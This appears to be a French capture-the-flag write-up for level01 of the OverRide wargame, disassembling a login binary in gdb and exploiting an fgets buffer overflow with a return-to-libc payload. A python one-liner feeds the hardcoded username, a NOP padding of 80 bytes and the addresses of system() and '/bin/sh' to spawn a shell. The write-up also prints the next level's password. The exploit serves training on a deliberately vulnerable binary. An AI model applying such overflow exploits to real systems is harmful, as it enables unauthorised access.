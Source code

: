 # Analyse

## Binaire

`./level01`
```
********* ADMIN LOGIN PROMPT *********
Enter Username:
```
`test`
```
verifying username....

nope, incorrect username...

```
## Gdb

`info function`
```asm
[...]
  0x08048464  verify_user_name
  0x080484a3  verify_user_pass
  0x080484d0  main
[...]
```


`disas main`
```asm
Dump of assembler code for function main:
   0x080484d0 <+0>:	push   ebp
   0x080484d1 <+1>:	mov    ebp,esp
   0x080484d3 <+3>:	push   edi
   0x080484d4 <+4>:	push   ebx
   0x080484d5 <+5>:	and    esp,0xfffffff0
   0x080484d8 <+8>:	sub    esp,0x60
   0x080484db <+11>:	lea    ebx,[esp+0x1c]
   0x080484df <+15>:	mov    eax,0x0
   0x080484e4 <+20>:	mov    edx,0x10
   0x080484e9 <+25>:	mov    edi,ebx
   0x080484eb <+27>:	mov    ecx,edx
   0x080484ed <+29>:	rep stos DWORD PTR es:[edi],eax         ; memset(buffer, 0, 16);
   0x080484ef <+31>:	mov    DWORD PTR [esp+0x5c],0x0
   0x080484f7 <+39>:	mov    DWORD PTR [esp],0x80486b8
   0x080484fe <+46>:	call   0x8048380 <puts@plt>             ; puts("********* ADMIN LOGIN PROMPT *********");
   0x08048503 <+51>:	mov    eax,0x80486df
   0x08048508 <+56>:	mov    DWORD PTR [esp],eax
   0x0804850b <+59>:	call   0x8048360 <printf@plt>           ; printf("Enter Username: ");
   0x08048510 <+64>:	mov    eax,ds:0x804a020
   0x08048515 <+69>:	mov    DWORD PTR [esp+0x8],eax
   0x08048519 <+73>:	mov    DWORD PTR [esp+0x4],0x100
   0x08048521 <+81>:	mov    DWORD PTR [esp],0x804a040
   0x08048528 <+88>:	call   0x8048370 <fgets@plt>            ; fgets(<a_user_name>, 256, <stdin>);
   0x0804852d <+93>:	call   0x8048464 <verify_user_name>
   0x08048532 <+98>:	mov    DWORD PTR [esp+0x5c],eax
   0x08048536 <+102>:	cmp    DWORD PTR [esp+0x5c],0x0
   0x0804853b <+107>:	je     0x8048550 <main+128>             ; if verify_user_name() == 0:   jump à <+128>  
   0x0804853d <+109>:	mov    DWORD PTR [esp],0x80486f0
   0x08048544 <+116>:	call   0x8048380 <puts@plt>             ; puts("nope, incorrect username...\n");
   0x08048549 <+121>:	mov    eax,0x1
   0x0804854e <+126>:	jmp    0x80485af <main+223>             ; jump à <+223>
   0x08048550 <+128>:	mov    DWORD PTR [esp],0x804870d
   0x08048557 <+135>:	call   0x8048380 <puts@plt>             ; puts("Enter Password: ");
   0x0804855c <+140>:	mov    eax,ds:0x804a020
   0x08048561 <+145>:	mov    DWORD PTR [esp+0x8],eax
   0x08048565 <+149>:	mov    DWORD PTR [esp+0x4],0x64
   0x0804856d <+157>:	lea    eax,[esp+0x1c]
   0x08048571 <+161>:	mov    DWORD PTR [esp],eax
   0x08048574 <+164>:	call   0x8048370 <fgets@plt>            ; fgets(buffer, 100, <stdin>);
   0x08048579 <+169>:	lea    eax,[esp+0x1c]
   0x0804857d <+173>:	mov    DWORD PTR [esp],eax
   0x08048580 <+176>:	call   0x80484a3 <verify_user_pass>     
   0x08048585 <+181>:	mov    DWORD PTR [esp+0x5c],eax
   0x08048589 <+185>:	cmp    DWORD PTR [esp+0x5c],0x0
   0x0804858e <+190>:	je     0x8048597 <main+199>             ; if verify_user_pass(buffer) == 0:   jump à <+199>
   0x08048590 <+192>:	cmp    DWORD PTR [esp+0x5c],0x0
   0x08048595 <+197>:	je     0x80485aa <main+218>             ; idem mais jump à <+218>
   0x08048597 <+199>:	mov    DWORD PTR [esp],0x804871e
   0x0804859e <+206>:	call   0x8048380 <puts@plt>             ; puts("nope, incorrect password...\n");
   0x080485a3 <+211>:	mov    eax,0x1
   0x080485a8 <+216>:	jmp    0x80485af <main+223>             ; jump à <+223>
   0x080485aa <+218>:	mov    eax,0x0
   0x080485af <+223>:	lea    esp,[ebp-0x8]
   0x080485b2 <+226>:	pop    ebx
   0x080485b3 <+227>:	pop    edi
   0x080485b4 <+228>:	pop    ebp
   0x080485b5 <+229>:	ret
End of assembler dump.
```

`disas verify_user_name`
```asm
Dump of assembler code for function verify_user_name:
   0x08048464 <+0>:	push   ebp
   0x08048465 <+1>:	mov    ebp,esp
   0x08048467 <+3>:	push   edi
   0x08048468 <+4>:	push   esi
   0x08048469 <+5>:	sub    esp,0x10
   0x0804846c <+8>:	mov    DWORD PTR [esp],0x8048690
   0x08048473 <+15>:	call   0x8048380 <puts@plt>                       ; puts("verifying username....\n");
   0x08048478 <+20>:	mov    edx,0x804a040
   0x0804847d <+25>:	mov    eax,0x80486a8
   0x08048482 <+30>:	mov    ecx,0x7
   0x08048487 <+35>:	mov    esi,edx
   0x08048489 <+37>:	mov    edi,eax
   0x0804848b <+39>:	repz cmps BYTE PTR ds:[esi],BYTE PTR es:[edi]     ; return strcmp("dat_wil", <a_user_name>);
   0x0804848d <+41>:	seta   dl
   0x08048490 <+44>:	setb   al
   0x08048493 <+47>:	mov    ecx,edx
   0x08048495 <+49>:	sub    cl,al
   0x08048497 <+51>:	mov    eax,ecx
   0x08048499 <+53>:	movsx  eax,al
   0x0804849c <+56>:	add    esp,0x10
   0x0804849f <+59>:	pop    esi
   0x080484a0 <+60>:	pop    edi
   0x080484a1 <+61>:	pop    ebp
   0x080484a2 <+62>:	ret
End of assembler dump.
```

`disas verify_user_pass`
```asm
Dump of assembler code for function verify_user_pass:
   0x080484a3 <+0>:	push   ebp
   0x080484a4 <+1>:	mov    ebp,esp
   0x080484a6 <+3>:	push   edi
   0x080484a7 <+4>:	push   esi
   0x080484a8 <+5>:	mov    eax,DWORD PTR [ebp+0x8]
   0x080484ab <+8>:	mov    edx,eax
   0x080484ad <+10>:	mov    eax,0x80486b0
   0x080484b2 <+15>:	mov    ecx,0x5
   0x080484b7 <+20>:	mov    esi,edx
   0x080484b9 <+22>:	mov    edi,eax
   0x080484bb <+24>:	repz cmps BYTE PTR ds:[esi],BYTE PTR es:[edi]     ; return strcmp("admin", argv[1]);
   0x080484bd <+26>:	seta   dl
   0x080484c0 <+29>:	setb   al
   0x080484c3 <+32>:	mov    ecx,edx
   0x080484c5 <+34>:	sub    cl,al
   0x080484c7 <+36>:	mov    eax,ecx
   0x080484c9 <+38>:	movsx  eax,al
   0x080484cc <+41>:	pop    esi
   0x080484cd <+42>:	pop    edi
   0x080484ce <+43>:	pop    ebp
   0x080484cf <+44>:	ret
End of assembler dump.
```

# Exploit

Le programme compare le username fourni avec "dat_wil", puis le password fourni avec "admin".<br/><br/>
`./level01`
```
********* ADMIN LOGIN PROMPT *********
Enter Username: dat_wil
verifying username....

Enter Password:
admin
nope, incorrect password...
```
Quel que soit le mot de passe, il affiche "nope, incorrect password..." et return, puis de toutes façons à aucun moment il ne nous affiche le fichier .pass ou nous ouvre un shell, donc on va devoir se débrouiller tout seul.

A la différence de RainFall, OverRide nous propose une iso avec un protection sur la stack: celle-ci est [non-exécutable](https://www.usenix.org/legacy/publications/library/proceedings/sec98/full_papers/full_papers/cowan/cowan_html/node21.html):
```
RELRO           STACK CANARY      NX            PIE             RPATH      RUNPATH      FILE
Partial RELRO   No canary found   NX enabled    No PIE          No RPATH   No RUNPATH   /home/users/level00/level00
```

Comme nous ne pouvons plus exécuter le shellcode situé sur la stack, nous allons changer notre technique, et nous allons appeler directement la fonction system() de la libc, en lui fournissant comme argument la chaine de caractère "/bin/sh".<br/>
doc principale : https://beta.hackndo.com/retour-a-la-libc/<br/>

Tout d'abord, on note que fgets() est utilisé sans protection sur un buffer à <main+164>. On peut donc faire un buffer overflow, cherchons l'offset avec un [générateur de pattern](https://wiremask.eu/tools/buffer-overflow-pattern-generator/).

```
(gdb) r
Starting program: /home/users/level01/level01
********* ADMIN LOGIN PROMPT *********
Enter Username: dat_wil
verifying username....

Enter Password:
Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2Ad3Ad4Ad5Ad6Ad7Ad8Ad9Ae0Ae1Ae2Ae3Ae4Ae5Ae6Ae7Ae8Ae9Af0Af1Af2Af3Af4Af5Af6Af7Af8Af9Ag0Ag1Ag2Ag3Ag4Ag5Ag
nope, incorrect password...


Program received signal SIGSEGV, Segmentation fault.
0x37634136 in ?? ()
```
- L'EIP est réécrit avec un offset de 80. 

Notre exploit sera composé comme suit:
[ Offset de 80 (NopSled) ] [ Adresse system() ] [ Adresse retour (osef) ] [ Adresse "/bin/sh" ].

```
(gdb) p system
$1 = {<text variable, no debug info>} 0xf7e6aed0 <system>
```
- L'adresse de system() est 0xf7e6aed0 (\xd0\xae\xe6\xf7)

```
(gdb) find __libc_start_main,+99999999,"/bin/sh"
0xf7f897ec
warning: Unable to access target memory at 0xf7fd3b74, halting search.
1 pattern found.
```
Cette commande recherche dans une plage mémoire commençant au début de la fonction __libc_start_main() (appelée avant notre fonction main), et d’une taille de 99 999 999 octets la string "/bin/sh".
- L'adresse de "/bin/sh" est 0xf7f897ec (\xec\x97\xf8\xf7)

`(python -c 'print "dat_wil\n" + "\x90" * 80 + "\xd0\xae\xe6\xf7" + "OSEF" + "\xec\x97\xf8\xf7"'; cat - ) | ./level01`
```
********* ADMIN LOGIN PROMPT *********
Enter Username: verifying username....

Enter Password:
nope, incorrect password...

whoami
level02
cat /home/users/level02/.pass
PwBLgNa8p8MTKW57S7zxVAQCxnCpV8JqTTs9XEBv
/bin/sh: 3: �: not found
Segmentation fault (core dumped)
```


